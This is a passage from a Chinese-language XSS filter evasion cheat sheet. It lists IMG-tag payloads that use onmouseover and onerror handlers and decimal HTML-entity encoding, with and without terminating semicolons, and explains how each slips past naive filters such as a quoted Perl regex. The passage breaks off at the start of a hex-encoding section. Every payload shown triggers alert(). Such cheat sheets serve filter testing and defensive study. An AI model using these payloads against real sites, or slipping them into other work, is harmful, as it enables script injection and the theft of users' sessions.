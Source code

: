 * * *

## 默认 SRC 属性通过省略它的值

```
<IMG SRC= onmouseover="alert('xxs')"> 
```

* * *

## 默认 SRC 属性通过完全不设置它

```
<IMG onmouseover="alert('xxs')"> 
```

* * *

## 通过 error 事件触发 alert

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img> 
```

* * *

## 十进制 html 编码引用

所有在[Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;> 
```

* * *

## 结尾没有分号的十进制 html 编码引用

他是经常有用的在绕过寻找"&#XX;"格式的 xss 过滤，因为大多数人不知道最多允许 7 位字符的编码限制。这也是有用的对那些对字符串解码像$tmp_string =~ s/.*\&#(\d+);.*/$1/; ,错误的认为一个 html 编码需要用;去结束。（我是无意中发现）

```
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041> 
```

* * *

## 结尾没有分号的十六进制 html 编码引用

这也是一种实用的 xss 攻击针对上文的$tmp_string =~ s/.*\&#(\d+);.*/$1/; ，错误的认为数字编码跟随在#后面（十六进制 htnl 编码并非如此），。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。
